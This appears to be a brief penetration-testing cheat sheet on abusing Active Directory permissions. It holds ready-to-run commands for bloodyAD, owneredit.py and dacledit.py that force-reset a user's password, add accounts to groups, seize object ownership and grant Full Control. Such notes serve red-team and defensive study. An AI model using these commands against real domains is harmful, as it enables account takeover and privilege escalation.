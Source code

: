 


### 1. ForceChange User password using BloodyAD


If we have `ForceChangePassword` over a user, we can use bloodyAD to change their password


```bash
bloodyAD --host $IP -u 'ownedUser' -p 'password' set password 'targetuser' 'password-to-be-set'
```



### 2. Add a user to a group using BloodyAD


If we have `AddSelf` for a user or `GenericAll`, we can add them to a group using bloodyAD


```bash
bloodyAD --host $IP -d domain -u 'owneduser' -p 'password' add groupMember "GroupName" "User-to-be-added"
```




### 3. Change OwnerShip of a user  using ownerdit.py


If we have WriteOwner right over a user object, we can use `owneredit.py` to change the object ownership


```bash
owneredit.py domain/owneruser -target 'user-whose-ownership-is-to-be-changed' -action write -new-owner 'new-owner'
```





### Granting GenericAll privilege to abuse ownership of a user object using dacledit.py


```bash
dacledit.py -action write -rights 'Full Control' -principal 'owneduser' -target 'targetuser' 
```